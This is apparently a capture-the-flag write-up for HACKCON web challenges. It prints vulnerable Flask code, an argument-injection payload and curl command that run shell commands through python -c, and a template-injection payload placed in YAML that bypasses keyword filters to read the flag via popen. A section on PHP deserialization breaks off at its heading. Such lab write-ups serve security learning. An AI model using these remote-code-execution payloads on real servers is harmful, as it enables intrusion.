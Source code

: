 --------------

### HACKCON CTF 

----------------

![image](https://github.com/user-attachments/assets/2a3fdfd1-c616-4f65-9554-b4e9018fe752)

----------------

### Challenges-:

----------------

- Web-:
  - Processed Subscription
  - Flask ain't no markup language
  - Zeezy's notes

------------------

### Web

------------------

### Processed Subscription

------------------

![image](https://github.com/user-attachments/assets/edee15aa-4195-4a00-aa61-bb9f8c605ead)

------------------

- Source code analysis, code-:

```python
@app.route('/run_file', methods=['GET'])
def run_code():
    filename = request.args.get("code")
    if filename.endswith(".py"):
       response = subprocess.Popen(["python3",filename],stdout=-1).communicate()
       response =  response[0].decode()
       print(response)
    else:
        response = "Invalid file type"
    return jsonify({'result': response})
```
- The route `run_file` is vulnerable to argument injection.An attacker can control the filename variable and trigger `argument injection` to Remote Code Exection on the server.
- Testing it on a python interpreter before triggering it on the server.

![image](https://github.com/user-attachments/assets/104066ba-c520-4d52-aa79-4a9613c00ccc)

- Normally, Python should only execute a file in this state and should not be vulnerable to `argument injection`.
- Explaining the payload-:

```python3
-c\neval(\"__import__('os').system('id')\")
```

- The `-c` switch triggers the python interpreter, then we use `\n` to slip to the next line.Then, in the next line, we activate our payload.If we try it with the python interpreter, it'll be something like this.

![image](https://github.com/user-attachments/assets/f3f2a683-94ad-4c3e-9a4d-84e2480f27a4)

- Final Payload-:
```
-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py
```

- Flag-: ```gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}```

```zsh
curl -G https://chall1.pxxl.xyz/run_file -d "code=-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py"
{"result":"gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}\n"}
```

----------------

### Flask ain't no Markup Language

---------------

![image](https://github.com/user-attachments/assets/5fa6bf38-41f2-42f1-9866-0447c27c6504)

---------------

- Vulnerability is Flask Server Side Template Injection in `yaml`.While executing it, our payload will be place in yaml syntax e.g

```yaml
x: "{{7*7}}"
```

![image](https://github.com/user-attachments/assets/e4fd1bf4-85f5-4ce6-bfb4-ed18a3112ce40)


- Final payload-:

```
x: "{{config.__init__.__globals__.__getitem__('__BUILTINS__'.lower()).__getitem__('__IMPORT__'.lower())('OS'.lower()).popen('base64 /app/fl??/*.txt | base64 -d').read()}}"
```

- You can bypass the filtered strings by setting it to uppercase and passing it to python's lower function as soon as it is parsed.Lastly. the word `flag` gets filtered which you can bypass with regex e.g `fl?? should match flag`.
- Flag-: ```gdscCTF{4c4dae5677c29dcdcd06ba88565602fa}```

![image](https://github.com/user-attachments/assets/9bb1bb33-8913-4bf3-be94-5e2f4796dfe5)

----------------

### Zeezy's notes

-----------------

![image](https://github.com/user-attachments/assets/4c5c3982-9e3b-49ac-8c9c-e83fccba294e)

-----------------

- Vulnerability-: Php Insecure Deserialization(Privesc to Remote Code Execution)

------------------

### Source Code Analysis (Privilege Escalation)

------------------

- 



